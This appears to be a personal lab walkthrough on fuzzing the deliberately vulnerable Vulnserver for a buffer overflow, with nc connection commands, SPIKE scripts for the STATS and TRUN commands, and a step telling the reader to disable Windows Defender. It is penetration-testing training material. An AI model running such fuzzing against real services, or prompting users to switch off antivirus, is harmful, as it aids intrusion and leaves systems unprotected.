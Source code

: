 *NOTE: Disable your Windows Defender Real Time Protection*

**Run `Immunity Debugger` and `Vulnserver` as `administartor`**

**STEP 1**: Connecting to the Vulnserver

Vulnserver runs on Port 9999 as Default.

```
└─# nc -nv 192.168.137.134 9999                         
```

![[Pasted image 20231031191530.png]]

We can see that, we have a bunch of commands that we can use to interact with the `vulnserver`.
We will now try and use the technique of `spiking` to see, out of all these commands, which command is vulnerable to buffer overflow attack. 

**We will throw a bunch of characters to every command one at a time and see in which we are able to overflow the buffer space.**

**If we are able to do so, then the program should crash and we will know if that particular command is vulnerable to buffer overflow or not. If it doesn't crash, then it means it's most probably not vulnerable.**

## Trying it on a NON Vulnerable Command - STATS

**TOOL:** Generic Send TCP

> ./generic_send_tcp <IP_ADDRESS> <PORT_NUMBER> <SPIKE_SCRIPT>.spk 0 0

*stats.spk*

```
s_readline();
s_string("STATS");
s_string_variable("0");
```

```
└─# generic_send_tcp 192.168.137.134 9999 stats.spk 0 0
```

Nothing Happened, Immunity Debugger is still Running, that means that the Program did NOT crash.

![[Pasted image 20231031193051.png]]

## Trying it on a Vulnerable Command - TRUN

*trun.spk*

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

```
└─# generic_send_tcp 192.168.137.134 9999 trun.spk 0 0
```

And it Paused ie. it Crashed, and also we can see an overflow of A's on all the Registers. This means that `TRUN ` command is vulnerable.

![[Pasted image 20231031193543.png]]
